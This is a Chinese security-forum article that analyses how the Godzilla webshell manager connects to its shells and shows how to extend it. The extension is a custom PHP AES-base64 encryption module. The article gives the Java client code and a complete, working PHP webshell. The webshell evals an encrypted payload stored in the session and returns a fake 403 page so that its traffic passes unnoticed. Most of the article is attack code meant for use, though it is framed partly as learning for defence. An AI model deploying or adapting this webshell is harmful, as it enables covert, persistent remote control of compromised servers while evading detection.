# 哥斯拉的连接流程分析以及实现自己的魔改webshell-先知社区

> **来源**: https://xz.aliyun.com/news/18523  
> **文章ID**: 18523

---

> 这段时间一直在学习内存马部分,国护期间也分析了几次内存马样本;因为都是魔改的webshell,那么对应的客户端也是要加上对应的魔改逻辑,因此就去细看了冰蝎和哥斯拉两款优秀webshell管理工具的源码,还是学到了不少好东西.  
> 刚好也想搓一个rasp,正好看看源码并学习学习!会攻才会守!  
> 本文就以自己动手添加哥斯拉的魔改shell为例,分析分析其中的过程.

# 项目配置

一般看网上的教程是反编译jar包,然后配置启动类,配置依赖库,就完成了,这里教程不做赘述  
贴个反编译的网站: [Java decompiler online](http://www.javadecompilers.com/)  
还有一种办法是去GitHub搜别人上传好的反编译源码,不过此种方法也可能有风险,可能被投毒,估计各位大黑阔也不太愿意冒这个风险去用了,所以自己动手也不错.

我自己是稍稍优化了反编译后的源码位置,把它变身成了一个`Maven`项目;可以实现随拉随用,不过为了尊重作者的原始版权,还是尽可能不到处宣发了.  
如果你是自己去解压jar包的话大概得到的项目构成如下:  
  
接下来就开始动手了!

# 连接过程

直接来到`shells`目录下  
  
进去`cryptions/phpXor`

```
F:.
│  Generate.java
│  PhpEvalXor.java
│  PhpXor.java
│  PhpXorRaw.java
│
└─template
        base64.bin
        eval.bin
        raw.bin

```

大概就是这个,细心的话就会发现刚好对应生成器php webshell的3种方式,通过CryptionAnnotation注解实现动态嵌入,在启动时扫描注解类,然后使用时反射获取并实例化,最后可以动态选择调用,这也是java语言的一大特性了,为啥golang没有啊!!!  
  
那么很容易就知道这个`cryptions`目录就是用来控制Webshell的生成和连接方式.

然后payloads目录下存放的就是连接的时候发送的大马原始数据以及存放了作为webshell客户端管理的基本功能  
在发送的时候注入到我们上面的`cryptions`里的实现逻辑,然后服务端那边对应解密执行再加密返回.  
剩下最后一个目录就是插件功能的所在位置了

进入到对应连接控制的类,位置在`core.shell.ShellEntity`  
重点关注`initShellOpertion`,这就是最终初始化shell的方法.组装了各个模块完成最终的`连接`测试的方法:可以看到如下代码:  
  
确实是组装了原始的`this.payload`到加密模块  
然后完成初始化和检查,就进入到webshell的有效性连接测试了  
然后跟进到test方法,发现是一个接口,那么我们看看哪些类实现该接口  
  
继续跟到`PhpShell`类中,  
这里先说明一点: 哥斯拉一阶段先会发送一个大马进去加载,然后完成以后将大马注入到被控端的`session`里完成持久化,后续只需提供模块化调用的方法名即可,就无需传入完整的控制代码了~

```
public boolean test() {  
   ReqParameter parameter = new ReqParameter();  
   byte[] result = this.evalFunc((String)null, "test", parameter);  
   String codeString = new String(result);  
   if (codeString.trim().equals("ok")) {  
      this.isAlive = true;  
      return true;  
   } else {  
      Log.error(codeString);  
      return false;  
   }  
}
```

然后这儿开始就是通过模块化调用`test`方法,看结果是否会返回ok,如果是ok那么就连接成功!  
先看看本次实验的结果哈哈哈哈  




  
  
完美符合前面的分析!  
最后画了个草图将就看看:),连接的过程大概就是如图所示了  
  
那么我们魔改的选择点肯定就在`cryotions`里了,因为发送的大马数据一般不用管,肯定也是与哥斯拉客户端功能模块高度耦合的,如果改了的话就要大改源码了,反正都要经过加密模块,也不是原文发送大马数据;因此重点肯定是在`cryotions`里添加自定义的加密算法和添加一些流量混淆手法了.

# 动手魔改

对于常见的魔改webshell加密算法一般是选择`aes`,刚好哥斯拉又提供了jsp版的aes-base64方式可供选择,但是好巧不巧又没有php版本...  
鉴于分析jsp版本可能牵扯到一些java安全知识,对于不熟悉java方面的师傅们不太友好.  
所以这里选择实现php版的`aes-base64`  
首先新建一个`shells/cryptions/phpXor/MyPHPShell.java`文件  
可以先copy一份jsp的实现然后改改也行  
然后加入我们的注解:

```
@CryptionAnnotation(  
        Name="PHP_AES_BASE64",  
        payloadName = "PhpDynamicPayload"  
)
```

可以看到他们都是实现了`Cryption`接口,然后idea中快捷键一键实现所有方法即可!  
以下是对该接口方法的功能解释

```
package core.imp;  
  
import core.shell.ShellEntity;  
  
public interface Cryption {  
   void init(ShellEntity var1);  //初始化一些变量
  
   byte[] encode(byte[] var1);   //加密和编码逻辑
  
   byte[] decode(byte[] var1);   //解密和解码逻辑
  
   boolean isSendRLData();       //添加脏数据,暂时用不到
  
   byte[] generate(String var1, String var2);  //生成逻辑
  
   boolean check();              //返回最终的初始化检查的bool值
}
```

那么很好办了一个个实现就行了呗!`init`方法完全可以照抄jsp版的实现,不过我们不需要左右添加脏数据,因此`this.findStrLeft/Right`就不需要了  
  
直接写上,这样第一个方法就成功实现了,怎么样是不是很简单!

```
private ShellEntity shell;  
private Http http;  
private Cipher decodeCipher;  
private Cipher encodeCipher;  
private String key;  
private boolean state;  
private byte[] payload;  
private String findStrLeft;  
private String pass;  
private String findStrRight;  
private String evalContent;  
@Override  
public void init(ShellEntity context) {  
    this.shell = context;  
    this.http = this.shell.getHttp();  
    this.key = this.shell.getSecretKeyX();  
    this.pass = this.shell.getPassword();  
  
    try {  
        this.encodeCipher = Cipher.getInstance("AES");  
        this.decodeCipher = Cipher.getInstance("AES");  
        // this.key="functions.md5("key").substring(0, 16)  
        this.encodeCipher.init(1, new SecretKeySpec(this.key.getBytes(), "AES"));  
        this.decodeCipher.init(2, new SecretKeySpec(this.key.getBytes(), "AES"));  
        this.payload = this.shell.getPayloadModule().getPayload();  
        if (this.payload != null) {  
            this.http.sendHttpResponse(this.payload);  
            this.state = true;  
        } else {  
            Log.error("payload Is Null");  
        }  
  
    } catch (Exception var4) {  
        Log.error((Throwable)var4);  
    }  
}
...
```

然后encode,decode函数直接调用前面初始化的`encodeCipher`,`decodeCipher`即可!因为aes是对此加密算法,公用一个密钥,因此也是大大的降低了我们的代码量!

```
@Override  
public byte[] encode(byte[] data) {  
    try{  
        String crptoString=java.util.Base64.getEncoder().encodeToString(this.encodeCipher.doFinal(data));  
        //这边一定要编码,对于php来说是个坑,php那边服务端不需要再url解码,直接base解码aes解密即可  
        return ("username="+this.pass+"&password="+(URLEncoder.encode(crptoString))).getBytes();  
    }catch (Exception e){  
        Log.error(e);  
        return null;  
    }  
}
@Override  
public byte[] decode(byte[] data) {  
    try {  
        //解码再解密  
        data = functions.base64Decode((new String(data)));  
        return this.decodeCipher.doFinal(data);  
    } catch (Exception var3) {  
        Log.error((Throwable)var3);  
        return null;  
    }  
}

//带上这两个默认的方法即可!一般不需要改动
public boolean isSendRLData() {  
    return true;  
}  
  
public boolean check() {  
    return this.state;  
}
```

提一嘴aes加密方法的payload测试:可以用厨子进行验证生成的payload是否正常加密了!方便我们进行一致性校验  
左边流程照着选就是了,密钥根据自己的填,我这里是key的md5前16位  
  
正常我们应该先写好服务端的php代码,然后发送这个payload过去是否能够成功解密并执行,  
然后再对逻辑进行装饰,再去看哥斯拉客户端这边生成的payload是否能正确解密就行,这样也就完美验证了一致性  
这点冰蝎就很好,自带一个算法一致性校验,后面也可以为哥斯拉加一个这东东...

然后就到了最后的`generate`方法了,它就是我们在哥斯拉里点击生成服务端所对应的功能函数了  
  
其实就是加载对应的模板文件,然后做pass,key啊等关键变量的替换,这里就不详细解释了,代码逻辑很容易!  
我们最终要实现一个带有伪装效果的`php webshell`,php中有个可以返回`403`的功能,能很好的起到混淆的效果!(这也是从狡猾的redTeam那学来的...)  
在前面的图片里也看到了,我们的webshell发送的post body是`username=xxxx&password=xxxx`  
大概逻辑就是传参username不等于我们指定的username的话就会返回错误页面,然后真正的`payload`是在password里,那么就起到了流量层面很好的伪装效果!  
直接搬出`php服务端`吧,代码很简单!

```
<?php  
@session_start();  
@set_time_limit(0);  
@error_reporting(0);  
function aes_encrypt($data, $key) {  
    $key = substr(md5($key), 0, 16);    return base64_encode(openssl_encrypt($data, 'AES-128-ECB', $key, OPENSSL_RAW_DATA));}  
function aes_decrypt($data, $key) {  
    $key = substr(md5($key), 0, 16);    return openssl_decrypt(base64_decode($data), 'AES-128-ECB', $key, OPENSSL_RAW_DATA);}  
$user='{user}';//入参1  
$pass = '{pass}'; //入参2  
$key = '{key}'; //入参3  
$payloadName = 'payload';   
if (isset($_POST[$pass])&&$_POST["username"] === $user) {  
    $data = aes_decrypt($_POST[$pass], $key);  
    if (isset($_SESSION[$payloadName])) {  
        $payload = aes_decrypt($_SESSION[$payloadName], $key);        
        // echo $payload;  
        @eval($payload);  
        // 这里的run是我们传进来的eval里的函数,可以理解为执行后就会出现上下文了  
        //然后我们就可以使用加载进来的函数  
        echo aes_encrypt(@run($data), $key);  
  
    } else {  
        if (strpos($data, "getBasicsInfo") !== false) {            $_SESSION[$payloadName] = aes_encrypt($data, $key);        } else {            show_error(); // 伪造页面  
        }  
    }} else {  
    show_error(); // 伪造页面  
}  
  
// 回显403  
function show_error() {  
    http_response_code(403); 
    echo "<h1>403 Forbidden</h1><p>Access Denied</p>";}
```

回到genetate最后一个方法上来,既然要动态生成,那么我们替换即可,因此generate方法就是3个参数

```
 @Override  
 public byte[] generate(String password, String secretKey) {  
     return Generate.GenerateMyPHPShell(password,"password", secretKey);  
}
```

然后到`shells.cryptions.phpXor.Generate`类中添加一个方法  


```
//新增生成方法  
public static byte[] GenerateMyPHPShell(String user,String pass, String secretKey){  
   byte[] data =null;  
   try{  
     InputStream inputStream= Generate.class.getResourceAsStream("/shells/cryptions/phpXor/template/myShellPHP.bin"); //根据你自己路径进行修改
      String code=new String(functions.readInputStream(inputStream));  
      if (inputStream == null) {  
         Log.error("myShellPHP.bin 资源未找到，请检查路径和资源文件是否存在！");  
         return null;  
      }  
      inputStream.close();  
      code=code.replace("{user}",user).replace("{pass}",pass).replace("{key}",secretKey);  
      code=TemplateEx.run(code);  
      data=code.getBytes();  
   }  
   catch (Exception e){  
      Log.error(e.getMessage());  
   }  
   return data;  
}
```

在template目录下新建一个`myShellPHP.bin`  
代码为前面的服务端php代码模板.  
这时候再去启动你的哥斯拉!填入对应的pass和key部分就可动态生成服务端  
  
不出意外的话就会直接生成好了  
  
然后连接即可!

# 效果

当username不是我们指定的那个就会返回**403**  
  
正常连接~一点问题没得  


# 中间的坑

遇到的坑

## 模板文件加载的路径问题

一个是`InputStream inputStream= Generate.class.getResourceAsStream("/shells/cryptions/phpXor/template/myShellPHP.bin");`  
这个里面的模板路径问题,默认是`template/`,但是变成maven后项目的位置发生了变化,当找不到的时候记得换项目根路径  
这里可以在编译好的target目录下找到根据,改为:/shells/cryptions/phpXor/template/myShellPHP.bin就完美运行啦!  


## php的url解码有问题

看看我们在生成payload的逻辑是进行了url编码

```
@Override  
public byte[] encode(byte[] data) {  
    try{  
        String crptoString=java.util.Base64.getEncoder().encodeToString(this.encodeCipher.doFinal(data));  
        //这边一定要编码,对于php来说是个坑,php那边服务端不需要再url解码,直接base解码aes解密即可  
        return ("username="+this.pass+"&password="+(URLEncoder.encode(crptoString))).getBytes();  
    }catch (Exception e){  
        Log.error(e);  
        return null;  
    }  
}
```

但是你会发现php端并未url解码,而当你去手动解码的时候

```
aes_decrypt((urldecode(($_POST['password']))),$key);
```

你会发现哥斯拉发过去的payload无法aes解密了  


不用url解码就正确了  
  
猜测应该是url编解码的时候对base64的数据进行了错误的还原,大概率是php的实现有问题... 这个地方卡了我好久!

好了,你也可以拥有自己的第一款魔改webshell了!后面还可以出出内存马的分析魔改文章,
